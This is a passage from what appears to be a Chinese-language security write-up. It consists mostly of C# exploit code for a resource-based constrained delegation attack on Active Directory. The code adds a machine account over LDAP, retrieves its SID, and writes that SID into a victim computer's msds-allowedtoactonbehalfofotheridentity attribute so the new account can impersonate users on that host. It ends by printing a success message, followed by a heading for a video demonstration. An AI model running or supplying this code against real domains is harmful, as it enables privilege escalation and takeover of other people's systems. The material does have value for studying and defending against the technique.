            distinguished_name = "CN=" + machine_account + ",CN=Computers";
            DC_array = Domain.Split('.');
            foreach (String DC in DC_array)
            {
                distinguished_name += ",DC=" + DC;
            }
            Console.WriteLine("[+] Elevate permissions on " + victimcomputer);
            Console.WriteLine("[+] Domain = " + Domain);
            Console.WriteLine("[+] Domain Controller = " + DomainController);
            //Console.WriteLine("[+] New SAMAccountName = " + sam_account);
            //Console.WriteLine("[+] Distinguished Name = " + distinguished_name);
            //连接ldap
            System.DirectoryServices.Protocols.LdapDirectoryIdentifier identifier = new System.DirectoryServices.Protocols.LdapDirectoryIdentifier(DomainController, 389);
            NetworkCredential nc = new NetworkCredential(username, password); //使用凭据登录
            System.DirectoryServices.Protocols.LdapConnection connection = null;
            connection = new System.DirectoryServices.Protocols.LdapConnection(identifier, nc);
            //connection = new System.DirectoryServices.Protocols.LdapConnection(identifier);
            connection.SessionOptions.Sealing = true;
            connection.SessionOptions.Signing = true;
            connection.Bind();
            var request = new System.DirectoryServices.Protocols.AddRequest(distinguished_name, new System.DirectoryServices.Protocols.DirectoryAttribute[] {
                new System.DirectoryServices.Protocols.DirectoryAttribute("DnsHostName", machine_account +"."+ Domain),
                new System.DirectoryServices.Protocols.DirectoryAttribute("SamAccountName", sam_account),
                new System.DirectoryServices.Protocols.DirectoryAttribute("userAccountControl", "4096"),
                new System.DirectoryServices.Protocols.DirectoryAttribute("unicodePwd", Encoding.Unicode.GetBytes("\"" + new_MachineAccount_password + "\"")),
                new System.DirectoryServices.Protocols.DirectoryAttribute("objectClass", "Computer"),
                new System.DirectoryServices.Protocols.DirectoryAttribute("ServicePrincipalName", "HOST/"+machine_account+"."+Domain,"RestrictedKrbHost/"+machine_account+"."+Domain,"HOST/"+machine_account,"RestrictedKrbHost/"+machine_account)
            });
            try
            {
                //添加机器账户
                connection.SendRequest(request);
                Console.WriteLine("[+] Machine account: " + machine_account + " Password: " + new_MachineAccount_password + " added");
            }
            catch (System.Exception ex)
            {
                Console.WriteLine("[-] The new machine could not be created! User may have reached ms-DS-new_MachineAccountQuota limit.)");
                Console.WriteLine("[-] Exception: " + ex.Message);
                return;
            }
            // 获取新计算机对象的SID
            var new_request = new System.DirectoryServices.Protocols.SearchRequest(distinguished_name, "(&(samAccountType=805306369)(|(name=" + machine_account + ")))", System.DirectoryServices.Protocols.SearchScope.Subtree, null);
            var new_response = (System.DirectoryServices.Protocols.SearchResponse)connection.SendRequest(new_request);
            SecurityIdentifier sid = null;
            foreach (System.DirectoryServices.Protocols.SearchResultEntry entry in new_response.Entries)
            {
                try
                {
                    sid = new SecurityIdentifier(entry.Attributes["objectsid"][0] as byte[], 0);
                    Console.Out.WriteLine("[+] " + new_MachineAccount + " SID : " + sid.Value);
                }
                catch
                {
                    Console.WriteLine("[!] It was not possible to retrieve the SID.\nExiting...");
                    return;
                }
            }
            //设置资源约束委派
            //System.DirectoryServices.DirectoryEntry myldapConnection = new System.DirectoryServices.DirectoryEntry("domain.com.cn");
            System.DirectoryServices.DirectoryEntry myldapConnection = new System.DirectoryServices.DirectoryEntry(Domain, username, password);
            myldapConnection.Path = victimcomputer_ldap_path;
            myldapConnection.AuthenticationType = System.DirectoryServices.AuthenticationTypes.Secure;
            System.DirectoryServices.DirectorySearcher search = new System.DirectoryServices.DirectorySearcher(myldapConnection);
            //通过ldap找计算机
            search.Filter = "(CN=" + victimcomputer + ")";
            string[] requiredProperties = new string[] { "samaccountname" };
            foreach (String property in requiredProperties)
                search.PropertiesToLoad.Add(property);
            System.DirectoryServices.SearchResult result = null;
            try
            {
                result = search.FindOne();
            }
            catch (System.Exception ex)
            {
                Console.WriteLine(ex.Message + "Exiting...");
                return;
            }
            if (result != null)
            {
                System.DirectoryServices.DirectoryEntry entryToUpdate = result.GetDirectoryEntry();
                String sec_descriptor = "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;" + sid.Value + ")";
                System.Security.AccessControl.RawSecurityDescriptor sd = new RawSecurityDescriptor(sec_descriptor);
                byte[] descriptor_buffer = new byte[sd.BinaryLength];
                sd.GetBinaryForm(descriptor_buffer, 0);
                // 添加evilpc的sid到msds-allowedtoactonbehalfofotheridentity中
                entryToUpdate.Properties["msds-allowedtoactonbehalfofotheridentity"].Value = descriptor_buffer;
                try
                {
                    entryToUpdate.CommitChanges();//提交更改
                    Console.WriteLine("[+] Exploit successfully!");
                }
                catch (System.Exception ex)
                {
                    Console.WriteLine(ex.Message);
                    Console.WriteLine("[!] \nFailed...");
                    return;
                }
            }
        }
    }
}
```


## 0x05 视频演示

